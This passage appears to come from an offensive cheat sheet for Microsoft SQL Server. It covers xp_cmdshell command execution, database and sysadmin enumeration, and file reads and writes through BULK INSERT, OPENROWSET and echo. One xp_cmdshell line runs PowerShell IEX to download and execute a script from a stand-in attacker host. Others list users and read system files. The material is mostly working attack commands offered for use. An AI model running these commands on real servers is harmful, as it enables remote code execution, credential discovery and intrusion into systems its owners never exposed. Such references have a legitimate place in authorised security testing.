 **Enabling xp_cmdshell:**
Requires sysadmin privileges. Once enabled, can execute any OS command.

**Common commands to run:**
```sql
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'ipconfig';
EXEC xp_cmdshell 'net user';
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://attacker/shell.ps1'')"';
```

## Database Enumeration

**Basic enumeration queries:**
```sql
SELECT @@version;           -- MSSQL version
SELECT USER_NAME();         -- Current user
SELECT DB_NAME();           -- Current database
SELECT name FROM sys.databases;  -- All databases
SELECT name FROM sys.tables;     -- Tables in current DB
```

**User and permissions:**
```sql
SELECT SYSTEM_USER;                    -- System user
SELECT IS_SRVROLEMEMBER('sysadmin');   -- Check if sysadmin
SELECT name FROM master.dbo.syslogins WHERE sysadmin = 1;  -- All sysadmins
```

## File Operations

**Reading files:**
```sql
-- Create temp table
CREATE TABLE temp (line varchar(8000));

-- Read file into table
BULK INSERT temp FROM 'c:\windows\system32\drivers\etc\hosts';

-- Display contents
SELECT * FROM temp;

-- Cleanup
DROP TABLE temp;
```

**Using OPENROWSET:**
```sql
SELECT * FROM OPENROWSET(BULK 'c:\windows\system32\drivers\etc\hosts', SINGLE_CLOB) AS Contents;
```

**Writing files:**
Only works with xp_cmdshell enabled:
```sql
EXEC xp_cmdshell 'echo test > c:\temp\test.txt';
```
